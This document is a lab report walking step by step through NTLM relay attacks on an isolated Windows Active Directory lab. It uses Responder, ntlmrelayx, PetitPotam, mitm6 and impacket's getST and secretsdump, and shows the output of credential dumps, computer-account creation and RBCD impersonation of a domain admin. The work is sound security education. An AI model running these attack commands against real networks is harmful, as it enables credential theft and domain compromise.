

# Cybersecurity report - 2024

## NTLM Relay attacks

### Introduction
This report is about the NTLM relay attack. My work is based on the online tutorials
[SANS Workshop – NTLM Relaying 101](https://jfmaes-1.gitbook.io/ntlm-relaying-like-a-boss-get-da-before-lunch/) and [the 2022 NTLM guide on the companion site](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022), with some modifications I will outline whenever the case.

The environment has been setup this way, under Virtual Box 7.0.14 r161095:

| Name | Role | OS | IP |
|:-------|:------| :-----| :----|
| NTLM-DC | Domain controller   | Windows | 10.0.0.100 |
| SRV01 | File server SV01 | Windows | 10.0.0.10 |
| VICTIM | Victim client    | Windows | 10.0.0.2 |
| - | Attacker    | Ubuntu 22.04.01 LTS | 10.0.0.7 |

All Windows machines are Windows Server 2019 Standard Evaluation Version 10.0.17763 Build 17763 downloaded from the tutorial already setup for the lab (manual detailed configuration steps also provided in the SANS tutorial).

All network interfaces are setup as "internal network" and each machine has a static IP address inside the network 10.0.0.0/24 in the domain `nlmlab.local`. I made the following changes to the setup:
- changed the IP address of the victim from 10.0.0.1 to 10.0.0.2 due to conflict when using natted network during my experiments;
- changed all the lockscreen and desktop background images for ease of presentation and screenshots;
- configured a time synchronization method between VMs;
- disabled energy savings to avoid screen saver kicking in;
- issued slmgr -rearm to rearm the Windows Server evaluation version, which extends the evaluation period by 30 days to stop the annoying frequent automatic reboots.

### NTLM Relay
NTLM relay attacks are a powerful way to move around and escalate privileges in a domain network.
The attacker relays an incoming authentication request from a victim to a target service. 
When a server asks the client (attacker) to prove his identity by encrypting a challenge, the attacker passes that challenge on and asks the victim to encrypt that same challenge for himself in order to impersonate victim’s identity against the server.

The threat model assumes that the attacker has MITM at the TCP level capability, which is relatively simple to obtain in Windows environments, for example abusing DNS legacy fallback protocols like LLMNR and NBT-NS or leveraging IPv6 MITM.

Taken MiTM capability for granted, an attacker may then try to impersonate one of the two parties in execution of authentication protocol and even impersonate the client on a different server of his choice, as we will see in a moment.

Keep in mind that:
- many protocols are vulnerable to NTLM relay attack, such as SMB but also HTTP or LDAP, and attacks can also be carried “cross-protocol”;
- there is a matrix of compatibility of “cross-protocol” combinations with a very nice [diagram here](https://www.thehacker.recipes/ad/movement/ntlm/relay), according to which SMB can not be relayed to LDAP, but HTTP can (see also [this](https://en.hackndo.com/ntlm-relay/#what-can-be-relayed) );
- message signing, such as in SMB signing, prevents NTLM relay attacks, and this is why it is [becoming mandatory](https://www.techzine.eu/news/devops/107034/windows-11-makes-smb-signing-mandatory/).

So the basic building blocks of an NTLM relay attack are these:
- A target service that an attacker wants to access using the identity of the victim;
- Some relay tool that handles the message exchange in the relay protocol;
- A user (victim) connecting to the attacker: the victim will encrypt the challenge(s) on behalf of the attacker.

### Attack 0: Initial reconnaisance

We need to learn more about our network environment. First of all we can search for broadcast traffic in the environment, for example from DNS replacement protocols like Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS).

We can then use Responder in analyze mode as follows : 
```
responder -I enp0s3 -A
```
The `-A` flag makes sure we are just listening and not actually poisoning anything. 
When I logged on the victim pc opened a file browser and tried to connect to `\\UGABUGA\`, the responder interface populated with lots of messages showing that LLMNR, NBT-NS and IPv6 are enabled on the network.


Please note that even in this configuration, the tool captures guessing material (NetNTLM hash, the result of NTLM challenge-response protocol execution) for possible later use with an offline guessing attack. This behaviour is particularly useful when an organization has automatic tools called “spyders” scanning the network.

In the next step we will use the “CrackMapExec” tool and its module “smb” in order to carry an initial reconnaisance to find servers that do not support SMB signing :
```
cme smb 10.0.0.0/24 --gen-relay-list targets.txt
```
The extracted list includes 10.0.0.2 (VICTIM) and 10.0.0.10 (SRV01) and not 10.0.0.100 (NTLM-DC) since the latter by default has SMB signing enabled.


### Attack 1A: SMB to SMB Relay Using Responder and NTLM Relay + SAM Dump
This attack uses the tools "Responder.py" and "ntlmrelayx.py" together. This approach relies on broadcast protocols in the network such as LLMNR or NBT-NS to convince a victim to connect to the attacker-controlled machine. 

In order for Responder and NTLM relay to work nicely together, we have to modify the Responder.conf file and disable the HTTP and SMB servers (as NTLM relay will be our SMB and later on also HTTP server). 

Open a terminal and launch responder:
```
python3 Responder.py -I enp0s3
```
In another terminal we’ll execute the "ntlmrelayx.py" tool from the “Impacket” suite to listen for incoming connections, relay the authentication to target server and execute a command on the target machine:
```
ntlmrelayx.py –tf targets.txt –c <COMMAND>
```
As per default "ntlmrelayx.py" behaviour, if you omit the last parameter “-c”, when the victim account connecting to the attacker happens to be high privilege on the target machine, the tool will automatically dump the SAM hive, the local Security Account Manager on Windows operating system, which contains password hashes for local accounts including local admins. You could then use those credentials to achieve code execution or dump LSASS memory that may contain domain level credentials. 

For this attack I setup ntlmrelayx to perform SMB to SMB relay with 
```
ntlmrelayx.py –tf targets.txt -smb2
```
Then I opened the GUI of VICTIM, launched the File Browser and just input `\\casualname\` without pressing enter or any other key. I was greeted with these messages on the ntlmrelayx console: 


What happens under the hood is that the tool “ntlmrelayx.py” tries to authenticate to all the targets in the list targets.txt obtained with “cme”; the connection was relayed successfully to 10.0.0.10 SRV01 but not back to the victim (cannot relay to yourself). Since it happens that the user “victim” is local admin on SRV01, the secrets are automatically dumped.

### Attack 1B: Proxy Chaining the SMB Connection Using Responder and NTLM Relay
In order to illustrate this, we can setup ntlmrelayx with [socks mode](https://www.secureauth.com/blog/playing-with-relayed-credentials/) enabled so that the authenticated sessions will be held active to allow their usage later on, for example for additional tools such as smbclient, psexec, secretsdump etc. 

Let's kill our ntlmrelayx session and start it up again but this time with the -socks option, making it acts as a socks server that holds all the sessions up even if not used:
```
ntlmrelayx.py -tf /home/jean/Desktop/targets.txt -smb2 -socks
```
["Proxychains4"](https://www.stationx.net/proxychains/) is a tool typically used to route network traffic through one or more proxy servers (chains of proxies). In this case we use it simply as a proxy client to be able to use the already opened connection.

To make it work, you also need to modify the following proxychains4 configuration file to change the default port 9050 to 1080 that ntlmrelayx uses:
```
nano /etc/proxychains4.conf 
```
So the very end of the file should look like this:
```
[ProxyList]
# add proxy here ...
socks4 127.0.0.1 1080
```
As you can see, if you input the “socks” command in the ntmlrelayx console, it will present a nice overview of which relays were successful. Please note that those connections will be maintained open “indefinitely”.


Anytime an attacker wants to use an application or tool and route the connection through the proxy, he would simply prepend the command with "proxychains4".

This way the attacker can perform further actions in the already open connection in a very convenient and efficient way, for example opening another terminal and typing:
```
proxychains4 secretsdump.py ntlmlab/victim@10.0.0.10
```
or
```
proxychains4 smbclient.py ntlmlab/victim@10.0.0.10
```

After issuing the command, when prompted for a password just leave it blank and hit enter. 
This way the tool understands that you want to use the open connection that was already intercepted and relayed before, effectively bypassing the password requirement.


Please note that even if the attacked users are not admin of the system, there could still be some overprivilege problems that an attacker could investigate and leverage, like for example a user could access some network share with confidential data. Lets keep this in mind for later attack 2A.

### Attack 2: Cross protocol NTLM Relay

If we try to relay the NTLM authentication for SMB to `ldap://10.0.0.100` (NTLM-DC) with: 
```
ntlmrelayx.py -t ldap://10.0.0.100 -smb2
```
When we try to connect to `\\10.0.0.7\` from victim, we get a pretty self-explanatory error on the ntlmrelayx.py console that informs us that :
```
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
```
We have 2 options to explore then: WebDAV or Mitm6
### Attack 2A: WebDAV
WebDAV (Web Distributed Authoring and Versioning) is an extension of HTTP that allows clients to perform remote web content authoring operations. By default WebDav service is installed and running on Windows servers but not on the workstations. 
For ease of this lab, the webclient service has been manually enabled on the victim PC with this command in an elevated powershell:
```
start-service webclient
```
Please note that if the webclient is installed but not running, there are some techniques that allow to enable the service, for example [placing a "Documents.searchConnector-ms” on a share](https://tradecraft.cafe/Windows-Search-And-WebDAV-Payloads/) (out of scope here).

For our next step, how can we force an authentication over HTTP? Please remember that one of the ways to have a successful relay to LDAP service is to "come from" HTTP protocol, of which WebDAV is an extension.

An attacker can try to coerce client authentication by using RPC calls with some techniques that started to be relevant in 2018. The first issue to become widely used was called “PrinterBug”: it is a “feature” within the Windows Print System Remote Protocol that allows a host to query another host, asking for an update on a print job.
It is an authenticated method (i.e., an attacker needs to already have domain credentials) for getting a server running the Print Spooler service to initiate an NTLMv2 authentication session (using its Machine Account credentials) with a server of the attacker's choosing. 

In 2021, the PetitPotam tool was released, utilizing a similar vulnerability in the service MS-EFSRPC (Encrypting File System Remote Protocol). Please note that the researchers also found two vulnerabilites (CVE-2021-36943 AND CVE-2022-26925) that allowed unauthenticated coercion. This meant that an attacker without any credentials could force a vulnerable server to connect to the relay server. To make things worse, Domain Controllers were vulnerable to the unauthenticated attack by default. As you can imagine, the un-authenticated version of the attack has been already patched, but still this kind of attack is quite relevant in the authenticated flavour.

What follows is an example usage; let me describe the input parameters:
- the username ("victim"),
- the domain
- the known password,
- the attacker-run http server to which initiate an NTLMv2 authentication session ("attacker@80/aaa") that will be relayed,
- the IP address of the victim that will be forced to connect to the previous resource.
```
python3 PetitPotam.py -u victim -d ntlmlab.local -p Qwerty123 attacker@80/aaa 10.0.0.2
```
Please see the attached screenshot with two terminal windows side-by-side:
- on the right you see the PetitPotam execution, where the victim is forced to authenticate with the attacker-controlled resource over HTTP;
- on the left the ntlmrelayx session where you see the incoming connection from the victim 10.0.0.2 which is then controlled (relayed) to the LDAP server 10.0.0.100.


### Attack 2B mitm6
The IPv6 takeover is more interesting, as we do not require any credentials for this type of attack. However, this attack can only be successfully performed if the organization we are targetting has IPv6 enabled, but not in use, which is quite common since in modern Windows operating systems, IPv6 is enabled by default and typically not used.
This means that computers periodically poll for an IPv6 lease and, if found, they will immediately start to use it since IPv6 has precedence over IPv4.

Let's start mitm6 on our attacker computer: 
```
mitm6 -d ntlmlab.local --ignore-nofqdn
```
We are now assigning IPv6 addresses to computers requesting DHCPv6 leases over the wire, ignoring requests that are not Fully Qualified Domain Names (FQDN) and answering only for the domain "ntlmlab.local" to improve the precision of attack and reduce noise. 

Once poison is complete, when a victim user attempts to browse an internal resource, which is to say something that requires internal DNS resolution, it will be resolved by our tool with the address of attacker, and on the victim machine will appear a prompt asking for credentials which totally seems legit; this works on internet explorer and other browsers that do transparent proxying.

This is what happens on the victim machine:
- on the left the result of a `ipconfig /all` to show that there is a new DNS server with the IPv6 address of attacker, and the `ping zabbix.ntlmlab.local` command that goes to the attacker’s IP address 10.0.0.7;
- on the right, the http request towards `zabbix.ntlmlab.local` that fires up the prompt asking for credentials.


This is what happens on the attacker machine, on the left the mitm6 tool's console where you can see it is actually poisoning addresses, on the right ntlmrelayx after the user has entered the credentials in the login form:


We just saw an example of a successfull cross-protocol NTLM relay attack from an unauthenticated standpoint, since actual credentials of users were never used in the attack.

## Appendix
In this section of the document I'll briefly analyze two other attacks described in the original resources. Since more than one month has passed from the original report creation, the "grace period" of Windows machines has expired and they keep rebooting every hour. One of the problems encountered was that the victim's WebClient service would not auto-restart, so I've given the following command as privileged user in elevated PowerShell:
```
PS C:\Windows\system32> Set-Service -Name WebClient -StartupType Automatic
```
### Attack 3 LDAP(S)
LDAPS (Lightweight Directory Access Protocol over SSL) is a secure version of LDAP that encrypts the communication between the client and the LDAP server using SSL/TLS.
The default domain policy allow users to domain-join up to 10 new computer objects, this of course can be changed but often is not the case.
So, leveraging the tool "ntlmrelayx", when relaying the connection to LDAPS, we can force the victim user to add a computer object to the domain.
What we need is the "ntlmrelayx" tool in execution with:
```
ntlmrelayx.py -t ldaps://10.0.0.100 --add-computer carlotrustedpc
```
When we leverage the PetitPotam tool to coerce the victim (with webservice client running) to authenticate to the attacker by using the very same command shown before, we get:
```
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 10.0.0.2 controlled, attacking target ldaps://10.0.0.100
[*] HTTPD(80): Authenticating against ldaps://10.0.0.100 as NTLMLAB/VICTIM$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=NTLMLAB,DC=local
[*] Adding new computer with username: carlotrustedpc$ and password: Ujc,vR!ODt;G96; result: OK
[*] HTTPD(80): Connection from 10.0.0.2 controlled, but there are no more targets left!
```
We just got a username and related password of a freshly created computer account that we can use for authenticated recoinassance purposes.
Please note that to coerce authentication from the victim, for convenience we used the PetitPotam tool requiring the credentials of the victim, but keep in mind that in some environments you could use the un-authenticated flavour or just use mitm6 tool as shown in section 2B.

### Attack 4 Resource Based Constrained Delegation (RBCD)
For this attack we'll move into Kerberos territory; in extreme synthesis RBCD allows services to impersonate users when accessing resources on behalf of those users. Unlike traditional delegation, RBCD is configured on the resource's account, specifying which accounts can delegate to it (more details can be found [here](https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61)).

The attribute msDS-AllowedToActOnBehalfOfOtherIdentity has to be set on the resource's account, it contains a value that represents an object that is trusted for any authentication originated from it. 
Please note that any computer account is able to set this property on itself.
For example, if SRV02 has its attribute msDS-AllowedToActOnBehalfOfOtherIdentity set to srv01, this means that srv02 trusts authentications coming from srv01. 

This has a tremendous security implication: if we can relay to LDAPS an account that is allowed to add additional computers to the domain, we can compromise the relayed computer by impersonating a domain admin on the relayed computer (aka the victim).
What happens under the hood is that:
- as before ntlmrelayx intercepts NTLM authentication requests and relays to LDAPS
- the tool authenticates to the LDAP server as the relayed user/machine account (e.g., NTLMLAB/VICTIM$)
- A new computer account (e.g., newlycreatedpc$) is created in the target domain
- The msDS-AllowedToActOnBehalfOfOtherIdentity attribute of VICTIM$ is updated to allow newlycreatedpc$ to impersonate other users
- newlycreatedpc$ can now use Kerberos delegation (S4U2Proxy) to impersonate users when accessing resources on VICTIM$.

Lets see all this in practice, this time we use the delegate-access flag for the command, that does all the hard work for us :
```
ntlmrelayx.py -t ldaps://10.0.0.100 --delegate-access
```
And we get :
```
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 10.0.0.2 controlled, attacking target ldaps://10.0.0.100
[*] HTTPD(80): Authenticating against ldaps://10.0.0.100 as NTLMLAB/VICTIM$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=NTLMLAB,DC=local
[*] Adding new computer with username: XIWARFUV$ and password: 7$gtW2be-1<bhPx result: OK
[*] Delegation rights modified succesfully!
[*] XIWARFUV$ can now impersonate users on VICTIM$ via S4U2Proxy
[*] HTTPD(80): Connection from 10.0.0.2 controlled, but there are no more targets left!
```
We will now be able to use Kerberos delegation from the newly created "XIWARFUV" computer account to request a ticket granting ticket (TGT) on behalf of the administrator working only on the relayed machine.
Lets  see this in action, we will use another script of the "impacket" suite called "getST.py".

Please keep in mind that our attacker machine is not domain joined, and we did not set the DNS server to point to the domain controller. Since Kerberos needs FQDN instead of ip address, we will need to either :
- set the DNS server in our ethernet config
- or change /etc/hosts adding records for the victim and DC addresses using FQDN as you can see below.
  
```
jean@attacker:~/workshop/PetitPotam$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	attacker
10.0.0.2        victim.ntlmlab.local
10.0.0.10	srv01.ntlmlab.local
10.0.0.100	ntlmlab.local
```
We can now lauch the command:
```
getST.py -spn cifs/victim.ntlmlab.local 'ntlmlab.local/XIWARFUV$:7$gtW2be-1<bhPx' -impersonate domainadmin
```
Lets analyze the parameters given:
- spn: Specifies the Service Principal Name (SPN) for which the service ticket is requested, in this case cifs/victim.ntlmlab.local the file service on the target machine victim.ntlmlab.local
- 'ntlmlab.local/XIWARFUV$:7$gtW2be-1<bhPx': The account requesting the service ticket and the password separated by colon (:)
- impersonate domainadmin: The user that XIWARFUV$ wants to impersonate is "domainadmin" a high-privilege account

The output is:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating domainadmin
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in domainadmin.ccache
```
The TGT ticket issued for the domainadmin user to use only on the victim machine is saved on disk in the folder we're using at the moment. We need to import it on our krb5ccname variable to use it for kerberos authentication.
```
export KRB5CCNAME=domainadmin.ccache
```
Now that the TGT is imported, we can use any tool impersonating a domain admin, in the following example we use secretsdump to dump SAM and cached credentials on the machine.
```
secretsdump.py ntlmlab.local/domainadmin@victim.ntlmlab.local -k -no-pass
```
The execution from getST.py is shown in the following screenshot, where you can also see that using an expired ticket gave the KDC_ERR_PREAUTH_FAILED error.


